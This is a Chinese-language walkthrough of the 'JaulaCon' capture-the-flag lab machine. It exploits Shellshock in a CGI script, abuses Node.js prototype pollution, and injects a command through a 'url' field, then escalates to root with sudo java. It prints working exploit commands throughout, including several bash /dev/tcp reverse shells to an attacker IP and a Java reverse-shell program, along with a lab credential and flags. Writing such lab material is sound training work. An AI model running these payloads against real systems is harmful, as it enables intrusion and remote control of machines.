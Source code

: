 # JaulaCon

2025.03.08 https://thehackerslabs.com/jaulacon/

[video](https://www.bilibili.com/video/BV1eBRYYtEFn/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3333/tcp open  dec-notes
8080/tcp open  http-proxy
```

80 为静态 web，发现 2 个顾客的人名 Jamesh Dame 和 Jumini Kiri ，其他无可用信息。

3333 对应 Node.js，访问后直接跳转到登陆 http://192.168.5.40:3333/login 目前没有登陆用户名和密码，简单测试也不存在 sql 注入。

8080 显示 apache 页面，扫描出了 http://192.168.5.40:8080/cgi-bin/ :

```
dirb http://192.168.5.40:8080/

gobuster dir -t 100 -k -e -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://192.168.5.40:8080/cgi-bin/ -x sh,py,cgi,perl
```

这里找到 cgi 文件 http://192.168.5.40:8080/cgi-bin/agua.cgi 显示：

```
Test
Vulnerable
This is a test
```

像是有 shellshock，进行探测，证明存在：

```
curl -H 'User-Agent: () { :;}; echo; echo 1' http://192.168.5.40:8080/cgi-bin/agua.cgi
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "echo 1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
或者
nmap 192.168.5.40 -p 8080 --script=http-shellshock --script-args uri=/cgi-bin/agua.cgi
```

当 Bash<=4.3，bash 使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的 shell 命令。

然后执行反弹 shell 操作：

```
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
```

或者使用另外一个漏洞利用库进行利用 https://github.com/nccgroup/shocker :

```
python2  ./shocker/shocker.py --Host 192.168.5.40 --port 8080 --command "/bin/cat /etc/passwd" --cgi /cgi-bin/agua.cgi
```

然后执行反弹命令，在 kali 上得到了反弹的 shell。先看到了这个 cgi 的源码：

```
www-data@ebe553aaa355:/var/www$ cat /usr/lib/cgi-bin/agua.cgi
#!/bin/bash

echo "Content-type: text/plain"
echo
echo
echo "Test"
echo
echo

# Vulnerable line
env x='() { :;}; echo Vulnerable' bash -c "echo This is a test"
```

进入系统后，发现是在 docker 容器中，有 .dockerenv 文件，但是没有任何特权，不能提权到宿主机。

发现隐藏文件 /opt/.credenciales : `Shellychosk:Portidrea345ñ` 可能是 ssh 或者是 3333 那个登陆页面的用户凭据。不是 ssh 的，是 3333 端口的。

登陆后，可以输入 url 下载文件，这里可能存在 SSRF。输入一个 http 请求，提示不是管理员，需要寻找提升到管理员的方法。

3333 对应的 web 服务是 Node.js 搭建的，可能存在 Prototype Pollution，当创建新对象时，会传入原型“对象”的属性和方法，其中包含 toString、constructor 和 hasOwnProperty 等基本功能，一旦对`__proto__`属性进行更改，它就会应用于正在运行的应用程序中的所有 JavaScript 对象，包括在操作后创建的对象。

利用过程如下：

1. 先使用上面的用户凭据登陆，然后获得 cookie 中的 admin_session 值:

```
curl -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=Shellychosk&password=Portidrea345ñ' http://192.168.5.40:3333/login -v

admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2
```

2. 进行原型链污染，会返回 Forbidden:

```
curl -X POST -H 'Content-Type: application/json' -d '{"url":1,"__proto__":{"admin":"true","isAdmin":"true","isadmin":"true"}}' http://192.168.5.40:3333/admin/check_url -v
```

3. 再次访问 check_url，这时系统内部的属性已经变成 admin，执行后会显示 File Downloaded：

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/json' -d '{"url":1,"__proto__":{"admin":"true","isAdmin":"true","isadmin":"true"}}' http://192.168.5.40:3333/admin/check_url -v
```

4. 执行命令验证(猜测目标机器上使用的是 Node.js 中的 exec 执行的系统命令，并且使用的是 wget url -O 这种形式进行的下载，url 现在可控，需要把前面和后面必合掉才能执行自己的命令)：

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'url=; ping -c 5 192.168.5.3 #' http://192.168.5.40:3333/admin/check_url -v
```

5. 执行反弹 shell

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'url=; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1" #' http://192.168.5.40:3333/admin/check_url -v
```

得到了反弹的 shell，在用户 jaula 下拿到了 user flag：

```
jaula@JaulaCon:~$ cat user.txt
3ac6640322d7d06957d3773fab3b27b7
```

sudo -l 显示 (root) NOPASSWD: /usr/bin/java 直接提权到 root：

创建 shell.java 文件：

```java
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/192.168.5.3/8888 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

javac shell.java & java shell 在 kali 上监听 8888 得到反弹的 shell，读取到最终的 root flag：

```
root@JaulaCon:~# cat root.txt
bdc7c8e1ce71e0ebff2d76d9b58c9b74
```
